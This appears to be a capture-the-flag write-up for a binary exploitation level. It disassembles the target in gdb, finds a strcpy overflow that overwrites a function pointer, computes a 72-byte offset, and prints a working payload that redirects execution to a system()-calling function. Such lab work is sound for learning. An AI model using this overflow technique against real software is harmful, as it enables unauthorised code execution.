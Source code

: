 # Level 6

## Testing the program 

```bash
$ ./level6 
Segmentation fault (core dumped)

$ ./level6 test
Nope
```

We have an executable which segfaults if not given an argument, and if given one displays 'Nope'.
We can assume here is some type of check done. 


## Finding out more

```bash
(gdb) info functions
All defined functions:
[...]
0x08048454  n
0x08048468  m
0x0804847c  main
[...]
(gdb) 
```

We have three functions, let's see which one is called. 

```bash
(gdb) disas main
Dump of assembler code for function main:
   0x0804847c <+0>:	push   %ebp
   0x0804847d <+1>:	mov    %esp,%ebp
   0x0804847f <+3>:	and    $0xfffffff0,%esp
   0x08048482 <+6>:	sub    $0x20,%esp
   0x08048485 <+9>:	movl   $0x40,(%esp)
   0x0804848c <+16>:	call   0x8048350 <malloc@plt>
   0x08048491 <+21>:	mov    %eax,0x1c(%esp)
   0x08048495 <+25>:	movl   $0x4,(%esp)
   0x0804849c <+32>:	call   0x8048350 <malloc@plt>
   0x080484a1 <+37>:	mov    %eax,0x18(%esp)
   0x080484a5 <+41>:	mov    $0x8048468,%edx
   0x080484aa <+46>:	mov    0x18(%esp),%eax
   0x080484ae <+50>:	mov    %edx,(%eax)
   0x080484b0 <+52>:	mov    0xc(%ebp),%eax
   0x080484b3 <+55>:	add    $0x4,%eax
   0x080484b6 <+58>:	mov    (%eax),%eax
   0x080484b8 <+60>:	mov    %eax,%edx
   0x080484ba <+62>:	mov    0x1c(%esp),%eax
   0x080484be <+66>:	mov    %edx,0x4(%esp)
   0x080484c2 <+70>:	mov    %eax,(%esp)
   0x080484c5 <+73>:	call   0x8048340 <strcpy@plt>
   0x080484ca <+78>:	mov    0x18(%esp),%eax
   0x080484ce <+82>:	mov    (%eax),%eax
   0x080484d0 <+84>:	call   *%eax
   0x080484d2 <+86>:	leave  
   0x080484d3 <+87>:	ret    
End of assembler dump.
(gdb) 
```
Even though it is not explicit m is called. Let's see how :

```bash
   0x080484a5 <+41>:	mov    $0x8048468,%edx
   0x080484aa <+46>:	mov    0x18(%esp),%eax
   0x080484ae <+50>:	mov    %edx,(%eax) --> STORES 0x8048468 INTO *eax
```

0x8048468 is moved into a register (%edx) and then stored into memory at a pointer returned from malloc.

That address 0x8048468 is later indirectly called via call *%eax.

If we go back to our info functions we see that 0x08048468 correspond to the address of the m() function.


Let's look at the n() function :

```bash
(gdb) disas n
Dump of assembler code for function n:
   0x08048454 <+0>:	push   %ebp
   0x08048455 <+1>:	mov    %esp,%ebp
   0x08048457 <+3>:	sub    $0x18,%esp
   0x0804845a <+6>:	movl   $0x80485b0,(%esp)
   0x08048461 <+13>:	call   0x8048370 <system@plt>
   0x08048466 <+18>:	leave  
   0x08048467 <+19>:	ret    
End of assembler dump.
```

We see that n calls system(), so our goal is going to be to use the function m so that it calls n().


## Getting acces to the pass

In the main we see that there is a call to strcpy, let's find the offset to do a buffer overflow.

```bash
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Starting program: /home/user/level6/level6 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x41346341 in ?? ()
(gdb) 
```
0x41346341 --> Offset of 72
The offset is 72, so our final payload will be : Offset + n() address 
"B"*72  + "\x54\x84\x04\x08"


```bash
$ ./level6 $(python -c 'print "B"*72+"\x54\x84\x04\x08"')
***************************
```